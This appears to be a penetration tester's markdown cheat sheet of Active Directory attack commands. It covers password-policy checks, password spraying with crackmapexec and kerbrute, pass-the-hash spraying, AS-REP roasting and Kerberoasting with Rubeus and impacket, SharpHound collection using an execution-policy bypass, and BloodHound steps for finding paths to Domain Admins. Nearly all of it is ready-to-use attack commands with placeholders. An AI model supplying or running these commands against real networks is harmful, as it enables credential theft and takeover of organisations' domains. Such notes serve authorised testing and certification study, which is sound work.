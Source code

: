 
### Password Spraying
#### Check Policy
```
crackmapexec <ip> -u <user> -p <password> --pass-pol
enum4linux -u <user> -p <pass> -P <ip>
net accounts
```
#### Spray
```
#Windows
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

#Linux
crackmapexec smb <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
crackmapexec smb <target_ips> -u <user_list> -H <hash> -d <domain> --continue-on-success
crackmapexec winrm <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
crackmapexec rdp <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success

#DON'T FORGET TO USE --local-auth to try local password spray.
```
#### AS-REP Roasting
```
#Gets all users.
impacket-GetADUsers -all -dc-ip <dc_ip> <domain>/<username>

#Roasting
.\Rubeus.exe asreproast /nowrap
impacket-GetNPUsers.py <domain>/ -usersfile <usernames.txt> - format hashcat -outputfile hashes-asrep
impacket-GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format hashcat -outputfile hashes-asrep
```
#### Kerberoasting
```
#Roasting
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
impacket-GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile hashes-kerb
```

### BloodHound
#### Data collection
```
powershell -ep bypass
Import-Module .\sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\<user>\Desktop\ -OutputPrefix "audit results"
```
#### Data Analysis

```
sudo neo4j start
sudo bloodhound
http://localhost:7474 (neo4j:kali)
```
- Import zipped data.
- Check Shortest Paths Analysis.
- Right click objects that are owned. For example users and client machines.
- Then choose "Shortest Path to Domain Admins from owned Principals".